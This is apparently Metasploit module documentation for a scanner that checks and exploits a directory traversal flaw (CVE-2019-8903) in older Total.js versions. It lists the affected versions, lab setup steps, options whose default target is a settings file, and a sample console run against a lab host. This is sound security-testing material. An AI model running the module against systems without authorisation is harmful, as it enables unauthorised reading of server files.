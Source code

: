 ## Description

This module check and exploits a Directory Traversal vulnerability in Total.js framework < 3.2.4 (CVE-2019-8903). Here is a list of accepted extensions: flac, jpg, jpeg, png, gif, ico, js, css, txt, xml, woff, woff2, otf, ttf, eot, svg, zip, rar, pdf, docx, xlsx, doc, xls, html, htm, appcache, manifest, map, ogv, ogg, mp4, mp3, webp, webm, swf, package, json, md, m4v, jsx, heif, heic.

## Vulnerable Application

Affecting total.js package, versions:

* >=2.1.0 <2.1.1
* >=2.2.0 <2.2.1
* >=2.3.0 <2.3.1
* >=2.4.0 <2.4.1
* >=2.5.0 <2.5.1
* >=2.6.0 <2.6.3
* >=2.7.0 <2.7.1
* >=2.8.0 <2.8.1
* >=2.9.0 <2.9.5
* >=3.0.0 <3.0.1
* >=3.1.0 <3.1.1
* >=3.2.0 <3.2.4

## Verification Steps

1. On a Node v8 environment do: `npm install total.js@3.2.3`
2. Install an app on top of the Total.js framework, something like [Total.js CMS](https://github.com/totaljs/cms)
  * `git clone https://github.com/totaljs/cms.git`
  * `cd cms && npm install`
3. Start `msfconsole`
4. `use auxiliary/scanner/http/totaljs_traversal`
5. `set RHOST <IP>`
6. `set RPORT <PORT>`
7. `run`
8. Verify you get Total.js version if the target is vulnerable!

## Options

 **DEPTH**

  Traversal depth. Default is `1`

 **FILE**

  File to obtain. Default is `databases/settings.json`

## Scenarios

### Tested on Total.js framework 3.2.0 and Total.js CMS 12.0.0

```
msf > use auxiliary/scanner/http/totaljs_traversal 
msf auxiliary(scanner/http/totaljs_traversal) > set RHOST 192.168.2.59
RHOST => 192.168.2.59
msf auxiliary(scanner/http/totaljs_traversal) > set RPORT 8320
RPORT => 8320
msf auxiliary(scanner/http/totaljs_traversal) > run
[*] Running module against 192.168.2.59

[*] Total.js version is: ^3.2.0
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/totaljs_traversal) >
```
